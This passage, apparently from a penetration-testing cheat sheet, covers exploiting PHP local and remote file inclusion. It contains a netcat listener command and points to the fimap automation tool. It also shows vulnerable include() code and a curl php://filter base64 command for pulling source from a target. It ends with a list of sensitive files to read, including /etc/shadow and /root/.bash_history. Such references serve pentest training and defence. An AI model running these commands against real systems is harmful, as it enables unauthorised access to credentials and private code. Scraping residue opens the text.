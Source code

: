         </div>

        nc -nlvp 80

*   ## [](#file-inclusion-vulnerabilities)File Inclusion Vulnerabilities

    *   Local (LFI) and remote (RFI) file inclusion vulnerabilities are commonly found in poorly written PHP code.

    *   fimap - There is a Python tool called fimap which can be leveraged to automate the exploitation of LFI/RFI vulnerabilities that are found in PHP (sqlmap for LFI):  
        [_https://github.com/kurobeats/fimap_](http://web.archive.org/web/20171113221652/https://github.com/kurobeats/fimap)

        *   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.
    *   For Local File Inclusions look for the include() function in PHP code.

        <div class="highlight highlight-text-html-php">

        <pre><span class="pl-s1"><span class="pl-k">include</span>(<span class="pl-s"><span class="pl-pds">"</span>lang/<span class="pl-pds">"</span></span><span class="pl-k">.</span><span class="pl-smi">$_COOKIE</span>[<span class="pl-s"><span class="pl-pds">'</span>lang<span class="pl-pds">'</span></span>]);</span> 
        <span class="pl-s1"><span class="pl-k">include</span>(<span class="pl-smi">$_GET</span>[<span class="pl-s"><span class="pl-pds">'</span>page<span class="pl-pds">'</span></span>]<span class="pl-k">.</span><span class="pl-s"><span class="pl-pds">"</span>.php<span class="pl-pds">"</span></span>);</span></pre>

        </div>

    *   LFI - Encode and Decode a file using base64

        <div class="highlight highlight-source-shell">

        <pre>curl -s \
        <span class="pl-s"><span class="pl-pds">"</span>http://<span class="pl-smi">$ip</span>/?page=php://filter/convert.base64-encode/resource=index<span class="pl-pds">"</span></span> \
        <span class="pl-k">|</span> grep -e <span class="pl-s"><span class="pl-pds">'</span>\[^\\ \]\\{40,\\}<span class="pl-pds">'</span></span> <span class="pl-k">|</span> base64 -d</pre>

        </div>

    *   LFI - Download file with base 64 encoding  
        _http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php_

    *   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root
